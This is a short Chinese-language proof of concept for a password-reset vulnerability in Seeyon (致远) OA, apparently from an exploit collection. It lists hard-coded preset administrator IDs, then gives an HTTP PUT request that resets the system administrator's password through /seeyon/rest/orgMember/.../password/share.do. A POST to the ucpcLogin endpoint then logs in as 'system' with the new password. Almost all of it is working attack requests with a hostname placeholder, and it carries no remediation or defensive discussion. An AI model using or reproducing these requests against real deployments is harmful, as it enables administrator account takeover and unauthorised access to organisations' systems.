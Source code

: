 ## 致远OA-ucpcLogin密码重置漏洞



```
/**     * 系统管理员预置ID     * @deprecated 角色角色化后，废弃不再使用     */
 public static final Long SYSTEM_ADMIN_ID = -7273032013234748168L;
/**     * 审计管理员预置ID     * @deprecated 角色角色化后，废弃不再使用，8.1后可能删除
*/    public static final Long AUDIT_ADMIN_ID = -4401606663639775639L;
/**     * 集团管理员预置ID     * @deprecated 角色角色化后，废弃不再使用，8.1后可能删除     */
  public static final Long GROUP_ADMIN_ID = 5725175934914479521L;
```

构造根据预制id数据包获取登录名

```
PUT /seeyon/rest/orgMember/-7273032013234748168/password/share.do HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: JSESSIONID=3891CB3E3CA435C599001E4F03A335B0; loginPageURL=
```

![image](../../images/c5cf82fe-e0ac-413c-9dc7-b2a0f9e15e9c.png)

## 构造数据包更改密码

```
POST /seeyon/rest/authentication/ucpcLogin?login_username=system&login_password=share.do&ticket= 
```
![image](../../images/6b5f019d-6a30-42d7-9f8b-787a072b5848.png)

![image](../../images/05232b2a-c6a5-41ef-b695-0714a28f567e.png)
